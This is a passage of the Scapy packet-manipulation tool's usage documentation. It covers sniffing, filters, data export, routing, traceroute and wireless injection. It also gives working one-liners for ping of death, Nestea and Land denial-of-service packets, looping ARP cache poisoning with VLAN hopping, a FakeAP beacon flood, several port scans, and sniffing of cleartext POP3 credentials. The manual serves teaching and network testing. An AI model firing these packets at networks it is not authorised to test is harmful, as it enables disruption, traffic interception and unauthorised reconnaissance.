    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 2070
       flags     = 
       frag      = 0L
       ttl       = 42
       proto     = ICMP
       chksum    = 0x861b
       src       = 66.35.250.151
       dst       = 192.168.5.21
       options   = ''
    ---[ ICMP ]---
          type      = echo-reply
          code      = 0
          chksum    = 0x91d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Padding ]---
                load      = '\n_\x00\x0b'

For even more control over displayed information we can use the ``sprintf()`` function::

    >>> pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
    192.168.1.100 -> 64.233.167.99
    
    64.233.167.99 -> 192.168.1.100
    
    192.168.1.100 -> 64.233.167.99
    
    192.168.1.100 -> 64.233.167.99
    'GET / HTTP/1.1\r\nHost: 64.233.167.99\r\nUser-Agent: Mozilla/5.0 
    (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071022 Ubuntu/7.10 (gutsy)
    Firefox/2.0.0.8\r\nAccept: text/xml,application/xml,application/xhtml+xml,
    text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5\r\nAccept-Language:
    en-us,en;q=0.5\r\nAccept-Encoding: gzip,deflate\r\nAccept-Charset:
    ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\nKeep-Alive: 300\r\nConnection:
    keep-alive\r\nCache-Control: max-age=0\r\n\r\n'
    
We can sniff and do passive OS fingerprinting::

    >>> p
    <Ether dst=00:10:4b:b3:7d:4e src=00:40:33:96:7b:60 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=60 id=61681 flags=DF frag=0L ttl=64 proto=TCP chksum=0xb85e
     src=192.168.8.10 dst=192.168.8.1 options='' |<TCP sport=46511 dport=80
     seq=2023566040L ack=0L dataofs=10L reserved=0L flags=SEC window=5840
     chksum=0x570c urgptr=0 options=[('Timestamp', (342940201L, 0L)), ('MSS', 1460),
     ('NOP', ()), ('SAckOK', ''), ('WScale', 0)] |>>>
    >>> load_module("p0f")
    >>> p0f(p)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    >>> a=sniff(prn=prnp0f)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (0.875, ['Linux 2.4.2 - 2.4.14 (1)', 'Linux 2.4.10 (1)', 'Windows 98 (?)'])
    (1.0, ['Windows 2000 (9)'])

The number before the OS guess is the accurracy of the guess.

Filters
-------

.. index::
   single: filter, sprintf()

Demo of both bpf filter and sprintf() method::

    >>> a=sniff(filter="tcp and ( port 25 or port 110 )",
     prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
    192.168.8.10:47226 -> 213.228.0.14:110   S : 
    213.228.0.14:110 -> 192.168.8.10:47226  SA : 
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK <13103.1048117923@pop2-1.free.fr>
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : USER toto
    
    213.228.0.14:110 -> 192.168.8.10:47226   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK 
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : PASS tata
    
    213.228.0.14:110 -> 192.168.8.10:47226  PA : -ERR authorization failed
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  FA : 
    192.168.8.10:47226 -> 213.228.0.14:110  FA : 
    213.228.0.14:110 -> 192.168.8.10:47226   A : 

Send and receive in a loop 
--------------------------

.. index::
   single: srloop()

Here is an example of a (h)ping-like functionnality : you always send the same set of packets to see if something change::

    >>> srloop(IP(dst="www.target.com/30")/TCP())
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S

Importing and Exporting Data
----------------------------
PCAP
^^^^

It is often useful to save capture packets to pcap file for use at later time or with different applications::

    >>> wrpcap("temp.cap",pkts)

To restore previously saved pcap file:

    >>> pkts = rdpcap("temp.cap")

or

    >>> pkts = sniff(offline="temp.cap")

Hexdump
^^^^^^^

Scapy allows you to export recorded packets in various hex formats.

Use ``hexdump()`` to display one or more packets using classic hexdump format::

    >>> hexdump(pkt)
    0000   00 50 56 FC CE 50 00 0C  29 2B 53 19 08 00 45 00   .PV..P..)+S...E.
    0010   00 54 00 00 40 00 40 01  5A 7C C0 A8 19 82 04 02   .T..@.@.Z|......
    0020   02 01 08 00 9C 90 5A 61  00 01 E6 DA 70 49 B6 E5   ......Za....pI..
    0030   08 00 08 09 0A 0B 0C 0D  0E 0F 10 11 12 13 14 15   ................
    0040   16 17 18 19 1A 1B 1C 1D  1E 1F 20 21 22 23 24 25   .......... !"#$%
    0050   26 27 28 29 2A 2B 2C 2D  2E 2F 30 31 32 33 34 35   &'()*+,-./012345
    0060   36 37                                              67

Hexdump above can be reimported back into Scapy using ``import_hexcap()``::

    >>> pkt_hex = Ether(import_hexcap())
    0000   00 50 56 FC CE 50 00 0C  29 2B 53 19 08 00 45 00   .PV..P..)+S...E.
    0010   00 54 00 00 40 00 40 01  5A 7C C0 A8 19 82 04 02   .T..@.@.Z|......
    0020   02 01 08 00 9C 90 5A 61  00 01 E6 DA 70 49 B6 E5   ......Za....pI..
    0030   08 00 08 09 0A 0B 0C 0D  0E 0F 10 11 12 13 14 15   ................
    0040   16 17 18 19 1A 1B 1C 1D  1E 1F 20 21 22 23 24 25   .......... !"#$%
    0050   26 27 28 29 2A 2B 2C 2D  2E 2F 30 31 32 33 34 35   &'()*+,-./012345
    0060   36 37                                              67
    >>> pkt_hex
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>

Hex string
^^^^^^^^^^

You can also convert entire packet into a hex string using the ``str()`` function::

    >>> pkts = sniff(count = 1)
    >>> pkt = pkts[0]
    >>> pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>
    >>> pkt_str = str(pkt)
    >>> pkt_str
    '\x00PV\xfc\xceP\x00\x0c)+S\x19\x08\x00E\x00\x00T\x00\x00@\x00@\x01Z|\xc0\xa8
    \x19\x82\x04\x02\x02\x01\x08\x00\x9c\x90Za\x00\x01\xe6\xdapI\xb6\xe5\x08\x00
    \x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b
    \x1c\x1d\x1e\x1f !"#$%&\'()*+,-./01234567'

We can reimport the produced hex string by selecting the appropriate starting layer (e.g. ``Ether()``).

    >>> new_pkt = Ether(pkt_str)
    >>> new_pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>

Base64
^^^^^^

Using the ``export_object()`` function, Scapy can export a base64 encoded Python data structure representing a packet::

    >>> pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f 
    !"#$%&\'()*+,-./01234567' |>>>>
    >>> export_object(pkt)
    eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
    OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
    bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
    WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
    ...

The output above can be reimported back into Scapy using ``import_object()``::

    >>> new_pkt = import_object()
    eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
    OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
    bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
    WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
    ...
    >>> new_pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f 
    !"#$%&\'()*+,-./01234567' |>>>>

Sessions
^^^^^^^^

At last Scapy is capable of saving all session variables using the ``save_session()`` function:

>>> dir()
['__builtins__', 'conf', 'new_pkt', 'pkt', 'pkt_export', 'pkt_hex', 'pkt_str', 'pkts']
>>> save_session("session.scapy")

Next time you start Scapy you can load the previous saved session using the ``load_session()`` command::

    >>> dir()
    ['__builtins__', 'conf']
    >>> load_session("session.scapy")
    >>> dir()
    ['__builtins__', 'conf', 'new_pkt', 'pkt', 'pkt_export', 'pkt_hex', 'pkt_str', 'pkts']

Making tables
-------------

.. index::
   single: tables, make_table()

Now we have a demonstration of the ``make_table()`` presentation function. It takes a list as parameter, and a function who returns a 3-uple. The first element is the value on the x axis from an element of the list, the second is about the y value and the third is the value that we want to see at coordinates (x,y). The result is a table. This function has 2 variants, ``make_lined_table()`` and ``make_tex_table()`` to copy/paste into your LaTeX pentest report. Those functions are available as methods of a result object :

Here we can see a multi-parallel traceroute (scapy already has a multi TCP traceroute function. See later)::

    >>> ans,unans=sr(IP(dst="www.test.fr/30", ttl=(1,6))/TCP())
    Received 49 packets, got 24 answers, remaining 0 packets
    >>> ans.make_table( lambda (s,r): (s.dst, s.ttl, r.src) )
      216.15.189.192  216.15.189.193  216.15.189.194  216.15.189.195  
    1 192.168.8.1     192.168.8.1     192.168.8.1     192.168.8.1     
    2 81.57.239.254   81.57.239.254   81.57.239.254   81.57.239.254   
    3 213.228.4.254   213.228.4.254   213.228.4.254   213.228.4.254   
    4 213.228.3.3     213.228.3.3     213.228.3.3     213.228.3.3     
    5 193.251.254.1   193.251.251.69  193.251.254.1   193.251.251.69  
    6 193.251.241.174 193.251.241.178 193.251.241.174 193.251.241.178 

Here is a more complex example to identify machines from their IPID field. We can see that 172.20.80.200:22 is answered by the same IP stack than 172.20.80.201 and that 172.20.80.197:25 is not answered by the sape IP stack than other ports on the same IP.

::

    >>> ans,unans=sr(IP(dst="172.20.80.192/28")/TCP(dport=[20,21,22,25,53,80]))
    Received 142 packets, got 25 answers, remaining 71 packets
    >>> ans.make_table(lambda (s,r): (s.dst, s.dport, r.sprintf("%IP.id%")))
       172.20.80.196 172.20.80.197 172.20.80.198 172.20.80.200 172.20.80.201 
    20 0             4203          7021          -             11562             
    21 0             4204          7022          -             11563             
    22 0             4205          7023          11561         11564             
    25 0             0             7024          -             11565             
    53 0             4207          7025          -             11566             
    80 0             4028          7026          -             11567             

It can help identify network topologies very easily when playing with TTL, displaying received TTL, etc.

Routing
-------

.. index::
   single: Routing, conf.route

Now scapy has its own routing table, so that you can have your packets routed diffrently than the system::

    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0
    >>> conf.route.delt(net="0.0.0.0/0",gw="192.168.8.1")
    >>> conf.route.add(net="0.0.0.0/0",gw="192.168.8.254")
    >>> conf.route.add(host="192.168.1.1",gw="192.168.8.1")
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.254   eth0
    192.168.1.1     255.255.255.255 192.168.8.1     eth0
    >>> conf.route.resync()
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0

Gnuplot
-------

.. index::
   single: Gnuplot, plot()

We can easily plot some harvested values using Gnuplot. (Make sure that you have Gnuplot-py and Gnuplot installed.)
For example, we can observe the IP ID patterns to know how many distinct IP stacks are used behind a load balancer::

    >>> a,b=sr(IP(dst="www.target.com")/TCP(sport=[RandShort()]*1000))
    >>> a.plot(lambda x:x[1].id)
    <Gnuplot._Gnuplot.Gnuplot instance at 0xb7d6a74c>

TCP traceroute (2)
------------------

.. index::
   single: traceroute(), Traceroute

Scapy also has a powerful TCP traceroute function. Unlike other traceroute programs that wait for each node to reply before going to the next, scapy sends all the packets at the same time. This has the disadvantage that it can't know when to stop (thus the maxttl parameter) but the great advantage that it took less than 3 seconds to get this multi-target traceroute result::

    >>> traceroute(["www.yahoo.com","www.altavista.com","www.wisenut.com","www.copernic.com"],maxttl=20)
    Received 80 packets, got 80 answers, remaining 0 packets
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.243.5.254       82.243.5.254       82.243.5.254       82.243.5.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.46       212.27.50.46       212.27.50.46       212.27.50.46       
    5  212.27.50.37       212.27.50.41       212.27.50.37       212.27.50.41       
    6  212.27.50.34       212.27.50.34       213.228.3.234      193.251.251.69     
    7  213.248.71.141     217.118.239.149    208.184.231.214    193.251.241.178    
    8  213.248.65.81      217.118.224.44     64.125.31.129      193.251.242.98     
    9  213.248.70.14      213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.45.10.88    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 193.45.10.88    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 193.45.10.88    SA 206.24.226.99      64.125.28.209      66.218.64.146      
    13 193.45.10.88    SA 206.24.227.106     64.125.29.45       66.218.82.230      
    14 193.45.10.88    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 193.45.10.88    SA 216.109.120.149    64.124.229.109     66.94.229.254   SA 
    16 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    (<Traceroute: UDP:0 TCP:28 ICMP:52 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)

The last line is in fact a the result of the function : a traceroute result object and a packet list of unanswered packets. The traceroute result is a more specialised version (a subclass, in fact) of a classic result object. We can save it to consult the traceroute result again a bit later, or to deeply inspect one of the answers, for example to check padding.

    >>> result,unans=_
    >>> result.show()
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    [...]
    >>> result.filter(lambda x: Padding in x[1])

Like any result object, traceroute objects can be added :

    >>> r2,unans=traceroute(["www.voila.com"],maxttl=20)
    Received 19 packets, got 19 answers, remaining 1 packets
       195.101.94.25:80   
    1  192.168.8.1        
    2  82.251.4.254     
    3  213.228.4.254      
    4  212.27.50.169      
    5  212.27.50.162      
    6  193.252.161.97     
    7  193.252.103.86     
    8  193.252.103.77     
    9  193.252.101.1      
    10 193.252.227.245    
    12 195.101.94.25   SA 
    13 195.101.94.25   SA 
    14 195.101.94.25   SA 
    15 195.101.94.25   SA 
    16 195.101.94.25   SA 
    17 195.101.94.25   SA 
    18 195.101.94.25   SA 
    19 195.101.94.25   SA 
    20 195.101.94.25   SA 
    >>>
    >>> r3=result+r2
    >>> r3.show()
       195.101.94.25:80   212.23.37.13:80    216.109.118.72:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.169      212.27.50.169      212.27.50.46       -                  212.27.50.46       
    5  212.27.50.162      212.27.50.162      212.27.50.37       212.27.50.41       212.27.50.37       
    6  193.252.161.97     194.68.129.168     212.27.50.34       213.228.3.234      193.251.251.69     
    7  193.252.103.86     212.23.42.33       217.118.239.185    208.184.231.214    193.251.241.178    
    8  193.252.103.77     212.23.42.6        217.118.224.44     64.125.31.129      193.251.242.98     
    9  193.252.101.1      212.23.37.13    SA 213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.252.227.245    212.23.37.13    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 -                  212.23.37.13    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 195.101.94.25   SA 212.23.37.13    SA 206.24.226.100     64.125.28.209      216.115.101.46     
    13 195.101.94.25   SA 212.23.37.13    SA 206.24.238.166     64.125.29.45       66.218.82.234      
    14 195.101.94.25   SA 212.23.37.13    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 195.101.94.25   SA 212.23.37.13    SA 216.109.120.151    64.124.229.109     66.94.229.254   SA 
    16 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 

Traceroute result object also have a very neat feature: they can make a directed graph from all the routes they got, and cluster them by AS. You will need graphviz. By default, ImageMagick is used to display the graph.

    >>> res,unans = traceroute(["www.microsoft.com","www.cisco.com","www.yahoo.com","www.wanadoo.fr","www.pacsec.com"],dport=[80,443],maxttl=20,retry=-2)
    Received 190 packets, got 190 answers, remaining 10 packets
       193.252.122.103:443 193.252.122.103:80 198.133.219.25:443 198.133.219.25:80  207.46...
    1  192.168.8.1         192.168.8.1        192.168.8.1        192.168.8.1        192.16...
    2  82.251.4.254        82.251.4.254       82.251.4.254       82.251.4.254       82.251...
    3  213.228.4.254       213.228.4.254      213.228.4.254      213.228.4.254      213.22...
    [...]
    >>> res.graph()                          # piped to ImageMagick's display program. Image below.
    >>> res.graph(type="ps",target="| lp")   # piped to postscript printer
    >>> res.graph(target="> /tmp/graph.svg") # saved to file 

If you have VPython installed, you also can have a 3D representation of the traceroute. With the right button, you can rotate the scene, with the middle button, you can zoom, with the left button, you can move the scene. If you click on a ball, it's IP will appear/disappear. If you Ctrl-click on a ball, ports 21, 22, 23, 25, 80 and 443 will be scanned and the result displayed::

    >>> res.trace3D()

Wireless frame injection
------------------------

.. index::
   single: FakeAP, Dot11, wireless, WLAN

Provided that your wireless card and driver are correctly configured for frame injection

::

    $ iw dev wlan0 interface add mon0 type monitor
    $ ifconfig mon0 up

you can have a kind of FakeAP::

    >>> sendp(RadioTap()/
              Dot11(addr1="ff:ff:ff:ff:ff:ff",
                    addr2="00:01:02:03:04:05",
                    addr3="00:01:02:03:04:05")/
              Dot11Beacon(cap="ESS", timestamp=1)/
              Dot11Elt(ID="SSID", info=RandString(RandNum(1,50)))/
              Dot11Elt(ID="Rates", info='\x82\x84\x0b\x16')/
              Dot11Elt(ID="DSset", info="\x03")/
              Dot11Elt(ID="TIM", info="\x00\x01\x00\x00"),
              iface="mon0", loop=1)

Depending on the driver, the commands needed to get a working frame injection interface may vary. You may also have to replace the first pseudo-layer (in the example ``RadioTap()``) by ``PrismHeader()``, or by a proprietary pseudo-layer, or even to remove it.

Simple one-liners
=================

ACK Scan
--------

Using Scapy's powerful packet crafting facilities we can quick replicate classic TCP Scans.
For example, the following string will be sent to simulate an ACK Scan::

    >>> ans,unans = sr(IP(dst="www.slashdot.org")/TCP(dport=[80,666],flags="A"))

We can find unfiltered ports in answered packets::

    >>> for s,r in ans:
    ...     if s[TCP].dport == r[TCP].sport:
    ...        print str(s[TCP].dport) + " is unfiltered"

Similarly, filtered ports can be found with unanswered packets::

    >>> for s in unans:     
    ...     print str(s[TCP].dport) + " is filtered"

Xmas Scan
---------

Xmas Scan can be launced using the following command::

    >>> ans,unans = sr(IP(dst="192.168.1.1")/TCP(dport=666,flags="FPU") )

Checking RST responses will reveal closed ports on the target. 

IP Scan
-------

A lower level IP Scan can be used to enumerate supported protocols::

    >>> ans,unans=sr(IP(dst="192.168.1.1",proto=(0,255))/"SCAPY",retry=2)

ARP Ping
--------

The fastest way to discover hosts on a local ethernet network is to use the ARP Ping method::

    >>> ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)

Answers can be reviewed with the following command::

    >>> ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )

Scapy also includes a built-in arping() function which performs similar to the above two commands:

    >>> arping("192.168.1.*")

ICMP Ping
---------

Classical ICMP Ping can be emulated using the following command::

    >>> ans,unans=sr(IP(dst="192.168.1.1-254")/ICMP())

Information on live hosts can be collected with the following request::

    >>> ans.summary(lambda (s,r): r.sprintf("%IP.src% is alive") )

TCP Ping
--------

In cases where ICMP echo requests are blocked, we can still use various TCP Pings such as TCP SYN Ping below::

    >>> ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )

Any response to our probes will indicate a live host. We can collect results with the following command::

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )

UDP Ping
--------

If all else fails there is always UDP Ping which will produce ICMP Port unreachable errors from live hosts. Here you can pick any port which is most likely to be closed, such as port 0::

    >>> ans,unans=sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )

Once again, results can be collected with this command:

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )

Classical attacks
-----------------

Malformed packets::

    >>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP()) 

Ping of death (Muuahahah)::

    >>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) ) 

Nestea attack::

    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10)) 
    >>> send(IP(dst=target, id=42, frag=48)/("X"*116)) 
    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224)) 
    
Land attack (designed for Microsoft Windows)::

    >>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))

ARP cache poisoning   
------------------- 
This attack prevents a client from joining the gateway by poisoning 
its ARP cache through a VLAN hopping attack. 

Classic ARP cache poisoning::

    >>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), 
          inter=RandNum(10,40), loop=1 ) 

ARP cache poisoning with double 802.1q encapsulation::
 
    >>> send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2) 
          /ARP(op="who-has", psrc=gateway, pdst=client),
          inter=RandNum(10,40), loop=1 )

TCP Port Scanning 
-----------------
 
Send a TCP SYN on each port. Wait for a SYN-ACK or a RST or an ICMP error:: 

    >>> res,unans = sr( IP(dst="target") 
                    /TCP(flags="S", dport=(1,1024)) ) 

Possible result visualization: open ports

::

    >>> res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
    
    
IKE Scanning
------------

We try to identify VPN concentrators by sending ISAKMP Security Association proposals
and receiving the answers::

    >>> res,unans = sr( IP(dst="192.168.1.*")/UDP()
                    /ISAKMP(init_cookie=RandString(8), exch_type="identity prot.") 
                    /ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal()) 
                  ) 

Visualizing the results in a list::

    >>> res.nsummary(prn=lambda (s,r): r.src, lfilter=lambda (s,r): r.haslayer(ISAKMP) ) 
    
  

Advanced traceroute
-------------------

TCP SYN traceroute
^^^^^^^^^^^^^^^^^^

::

    >>> ans,unans=sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S"))

Results would be::

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
    192.168.1.1     time-exceeded
    68.86.90.162    time-exceeded
    4.79.43.134     time-exceeded
    4.79.43.133     time-exceeded
    4.68.18.126     time-exceeded
    4.68.123.38     time-exceeded
    4.2.2.1         SA

UDP traceroute
^^^^^^^^^^^^^^

Tracerouting an UDP application like we do with TCP is not 
reliable, because there's no handshake. We need to give an applicative payload (DNS, ISAKMP, 
NTP, etc.) to deserve an answer::

    >>> res,unans = sr(IP(dst="target", ttl=(1,20))
                  /UDP()/DNS(qd=DNSQR(qname="test.com")) 

We can visualize the results as a list of routers::

    >>> res.make_table(lambda (s,r): (s.dst, s.ttl, r.src)) 

DNS traceroute
^^^^^^^^^^^^^^

We can perform a DNS traceroute by specifying a complete packet in ``l4`` parameter of ``traceroute()`` function::

    >>> ans,unans=traceroute("4.2.2.1",l4=UDP(sport=RandShort())/DNS(qd=DNSQR(qname="thesprawl.org")))
    Begin emission:
    ..*....******...******.***...****Finished to send 30 packets.
    *****...***...............................
